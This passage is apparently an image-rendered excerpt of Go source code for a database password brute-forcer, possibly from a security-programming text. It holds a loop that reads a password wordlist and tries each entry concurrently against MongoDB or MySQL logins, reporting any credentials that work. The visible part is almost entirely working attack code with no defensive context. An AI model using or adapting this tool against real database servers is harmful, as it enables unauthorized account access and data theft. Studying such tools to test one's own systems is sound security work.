 ```go
      Timeout: 10 * time.Second, 
      // Mongo does not require a database name 
      // so it is omitted to improve auth chances 
      //Database: dbName, 
      Username: username, 
      Password: password, 
   } 
   _, err := mgo.DialWithInfo(mongoDBDialInfo) 
   if err == nil { // No error = success 
      exitWithSuccess(password) 
   } else { 
      log.Println("Error connecting to Mongo. ", err) 
   } 
   doneChannel <- true 
} 

func exitWithSuccess(password string) { 
   log.Println("Success!") 
   log.Printf("\nUser: %s\nPass: %s\n", username, password) 
   os.Exit(0) 
} 

func bruteForce() { 
   // Load password file 
   passwords, err := os.Open(passwordFile) 
   if err != nil { 
      log.Fatal("Error opening password file. ", err) 
   } 

   // Go through each password, line-by-line 
   scanner := bufio.NewScanner(passwords) 
   for scanner.Scan() { 
      password := scanner.Text() 

      // Limit max goroutines 
      if activeThreads >= maxThreads { 
         <-doneChannel // Wait 
         activeThreads -= 1 
      } 

      // Test the login using the specified login function 
      go loginFunc(password) 
      activeThreads++ 
   } 

   // Wait for all threads before returning 
   for activeThreads > 0 { 
      <-doneChannel 
      activeThreads -= 1 
   } 
} 

func checkArgs() (string, string, string, string, string) { 
   // Since the database name is not required for Mongo or Mysql 
   // Just set the dbName arg to anything. 
   if len(os.Args) == 5 && 
      (os.Args[1] == "mysql" || os.Args[1] == "mongo") { 
      return os.Args[1], os.Args[2], os.Args[3], os.Args[4],   
      "IGNORED" 
   } 
   // Otherwise, expect all arguments. 
   if len(os.Args) != 6 { 
      printUsage() 
```
